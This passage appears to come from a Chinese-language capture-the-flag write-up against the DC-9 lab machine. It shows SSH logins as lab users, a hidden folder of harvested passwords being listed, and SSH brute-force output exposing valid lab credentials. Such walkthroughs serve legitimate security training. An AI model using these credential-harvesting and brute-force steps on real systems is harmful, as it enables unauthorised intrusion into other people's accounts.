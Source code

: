 ssh joeyt@192.168.101.190 ，没发现有用信息

![22](https://havocykp.github.io/assets/images/img_blog11/22.png)

ssh chandlerb@192.168.101.190，没发现有用信息

![23](https://havocykp.github.io/assets/images/img_blog11/23.png)

```javascript
root@pendo]─[/home/pendo]
└──╼ #ssh janitor@192.168.101.190
```

![24](https://havocykp.github.io/assets/images/img_blog11/24.png)

登录 janitor查看文件：ls -al

```javascript
janitor@dc-9:~$ ls -al
total 16
drwx------  4 janitor janitor 4096 Nov 13 18:14 .
drwxr-xr-x 19 root    root    4096 Dec 29  2019 ..
lrwxrwxrwx  1 janitor janitor    9 Dec 29  2019 .bash_history -> /dev/null
drwx------  3 janitor janitor 4096 Nov 13 18:14 .gnupg
drwx------  2 janitor janitor 4096 Dec 29  2019 .secrets-for-putin
janitor@dc-9:~$ cd .secrets-for-putin/
janitor@dc-9:~/.secrets-for-putin$ ls
passwords-found-on-post-it-notes.txt
janitor@dc-9:~/.secrets-for-putin$ cat passwords-found-on-post-it-notes.txt 
BamBam01
Passw0rd
smellycats
P0Lic#10-4
B4-Tru3-001
4uGU5T-NiGHts

```

![25](https://havocykp.github.io/assets/images/img_blog11/25.png)

又得到了新的密码，将其放入passs.txt文件里后继续爆破

```javascript
[DATA] attacking ssh://192.168.101.190:22/
[22][ssh] host: 192.168.101.190   login: fredf   password: B4-Tru3-001
[22][ssh] host: 192.168.101.190   login: chandlerb   password: UrAG0D!
[22][ssh] host: 192.168.101.190   login: joeyt   password: Passw0rd
[STATUS] 364.00 tries/min, 364 tries in 00:01h, 48 to do in 00:01h, 16 active
[22][ssh] host: 192.168.101.190   login: janitor   password: Ilovepee
```

![26](https://havocykp.github.io/assets/images/img_blog11/26.png)

发现多了一个用户fredf，远程连接
